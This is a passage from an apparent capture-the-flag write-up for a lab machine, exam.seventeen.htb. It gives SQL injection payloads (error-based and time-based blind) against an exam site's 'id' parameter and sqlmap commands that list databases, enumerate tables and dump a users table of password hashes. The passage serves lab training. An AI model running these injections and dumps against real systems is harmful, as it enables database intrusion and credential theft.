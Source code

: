 ```bash
COUNT(*),CONCAT(0x71766a7071,(SELECT
(ELT(8795=8795,1))),0x7162716b71,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'MCXA'='MCXA

Type: time-based blind

Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)

Payload: p=take_exam&id=1' AND (SELECT 2206 FROM (SELECT(SLEEP(5)))AhEo)
AND 'vqGg'='vqGg---

*SQLMAP COMMAND*

*# sqlmap -u "127.0.0.1/erms/?p=take_exam&id=1
<http://127.0.0.1/erms/?p=take_exam&id=1>" -p id --dbs --level 3*

```

Let’s use bootlean based with sqlmap. The function is probably the Exams function for search. Let’s type the following URL and turn intercept on:

```bash
http://exam.seventeen.htb/?p=take_exam&id=1
```

Now save the request by right-clicking and copy to file. Now to use sqlmap:

```bash
sqlmap -r req.txt -p id --batch

sqlmap -r req.txt -p id --batch --dbs

[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb

#most plausible db is erms_db as erms could stand for exam review management system
sqlmap -r req.txt -p id --batch -D erms_db --tables

+---------------+
| category_list |
| exam_list     |
| option_list   |
| question_list |
| system_info   |
| users         |
+---------------+

sqlmap -r req.txt -p id --batch -D erms_db -T users --dump

fc8ec7b43523e186a27f46957818391c | admin
48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark
184fe92824bea12486ae9a56050228ee | Stev1992
```
